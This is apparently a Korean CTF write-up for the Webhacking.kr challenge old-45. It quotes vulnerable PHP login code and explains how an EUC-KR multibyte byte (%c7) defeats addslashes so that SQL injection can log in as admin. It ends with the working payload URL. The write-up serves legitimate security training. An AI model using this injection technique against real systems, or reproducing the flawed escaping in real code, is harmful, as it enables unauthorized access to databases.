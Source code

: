 ```yaml
---
title: ["[Webhacking.kr] old-45 (sqli - 55)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli, euc-kr, mysql]
---
```


```php
<?php
  if($_GET['id'] && $_GET['pw']){
    $db = dbconnect();
    $_GET['id'] = addslashes($_GET['id']);
    $_GET['pw'] = addslashes($_GET['pw']);
    $_GET['id'] = mb_convert_encoding($_GET['id'],'utf-8','euc-kr');
    if(preg_match("/admin|select|limit|pw|=|<|>/i",$_GET['id'])) exit();
    if(preg_match("/admin|select|limit|pw|=|<|>/i",$_GET['pw'])) exit();
    $result = mysqli_fetch_array(mysqli_query($db,"select id from chall45 where id='{$_GET['id']}' and pw=md5('{$_GET['pw']}')"));
    if($result){
      echo "hi {$result['id']}";
      if($result['id'] == "admin") solve(45);
    }
    else echo("Wrong");
  }
?>
```  

`addslashes()` 함수는 `'`, `"`, `\`, `\0`와 같은 특수문자를 이스케이프 처리한다.  
`mb_convert_encoding()` 함수로 `id` 값이 `euc-kr`에서 `utf-8`로 변환된다.  


```sql
select id from chall45 where id='{$_GET['id']}' and pw=md5('{$_GET['pw']}')
```  

`pw`는 `md5`하여 값을 비교하므로, 인코딩 변환을 이용해서 `id`에 인젝션을 해보자.  

```sql
select id from chall45 where id='1'or id like 0x61646d696e#' and pw=md5(123)
```  
`preg_match()` 함수를 통해 필터링 되는 문자를 피해서 위와 같은 쿼리문을 생각해볼 수 있다.  

문제는 `addslashes()`함수인데,  
`1'or id like 0x61646d696e#`이 `1\'or id like 0x61646d696e#`와 같이 이스케이프될 것이다.  

`mb_convert_encoding()`에 의해 euc-kr이 utf8로 변환되므로,  
유니코드 테이블에서 비어있는 값을 변환시키면 코드를 정상적으로 실행시킬 수 있을 것이다.  

`\`는 `%5c`이다. `C75C`-`FE5C` 모두 비어있으므로, `'` 앞에 `%c7`을 넣어보자.  

```
?id=1%c7'or+id+like+0x61646d696e%23&pw=123
```

